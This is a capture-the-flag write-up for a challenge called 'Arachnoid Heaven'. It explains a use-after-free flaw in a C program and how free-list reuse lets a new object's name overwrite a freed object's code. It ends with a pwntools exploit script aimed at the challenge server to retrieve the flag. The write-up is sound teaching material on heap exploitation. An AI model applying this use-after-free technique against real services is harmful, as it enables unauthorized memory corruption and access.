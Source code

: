 # Arachnoid Heaven

## tl;dr

C program that alocates and deletes objects with a dangling pointer vulnerability that allows for value modification

## Initial Execution

We connect to the server with netcat for some initial analysis. We can see that we can create, delete, view or obtain arachnoids.

We create and view one:

![Craft](img/craft_live.png)

However, we try to delete the one we just made and then view it:

![Dangling](img/dangling.png)

We have a pretty obvious dangling pointer here. We deleted the arachnoid, the strings were freed, but for some reason the actual arachnoid object is still there... Let's analyze in IDA:

## Analysis

![Craft](img/craft.png)

Crafting is pretty straight forward. We allocated space for 2 pointers, then allocate those 2 pointers to point to two strings, the first being the name and the second one being the code. We see that the code is set to "bad" by default.

Let's move on to delete:

![Delete](img/delete.png)

We see that we free the 2 strings, but we don't actually free the area containing the strings or atleast reduce the arachnoid count by 1, so the object remains there cointaining two freed (dangling) pointers.

Let's move to obtain:

![Obtain](img/obtain.png)

We see that we can get the flag if we make one of the arachnoids contain the code "sp1d3y". The exploit is pretty clear here, let's explain it:

## Exploit

Let's take a dive into some C theory first:

When malloc is called, the C memory manager looks into what we call the "free list" first. This list contains previously allocated parts of memory using malloc that have now been freed. This way, those parts can be "recycled" into the new ones we need, if they're the same size ofcourse.

Let's assume that we have created an arachnoid. We then delete that arachnoid. With the deletion the following free's are called:

![Free](img/free_exploit.png)

Both these strins are the same size, so they're going to be placed in the same free list. When the first free gets called, the free list will look something like this:

![Free List](img/free_list_1.png)

However, after the second free, the free list will look something like this:
![Free List](img/free_list_2.png)

This is because free list follows LIFO(Last In First Out), so the last deallocated memory location will be the first one to be next allocated. This is obviously a problem in this implementation.

If we now create an arachnoid, the malloc's will go in this order:

![Malloc](img/malloc_exploit.png)

We can ignore the first one as it's not the same size. However, the first malloc will pick the first node off the free list. In our case this will be the old code string. The second one, will be the old name string.

What has happened here is that the new arachnoid has the code of the last arachnoid as name, and the name of the last arachnoid as code. The exploit is pretty clear here:

If we create an arachnoid, delete it, and then create an arachnoid with the name "sp1d3y", the first arachnoid's dangling pointer to it's code will be the pointer to the new arachnoid's name. This will make the first arachnoid's code be "sp1d3y". Let's write an exploit for this:

```python
# solve.py
from pwn import *

conn = remote('64.227.36.32', '31174')

def getl():
	return conn.recv().decode('utf-8')

# create first
print(getl())
conn.sendline(b'1')
print(getl())
conn.sendline(b'sp1d3y')

# delete first
print(getl())
conn.sendline(b'2')
print(getl())
conn.sendline(b'0')

# create second
print(getl())
conn.sendline(b'1')
print(getl())
conn.sendline(b'sp1d3y' + b'\0' + b'aa')

# get
print(getl())
conn.sendline(b'4')
print(getl())
conn.sendline(b'0')

conn.interactive()
```

## Flag

Running the exploit:

![Flag](img/flag.png)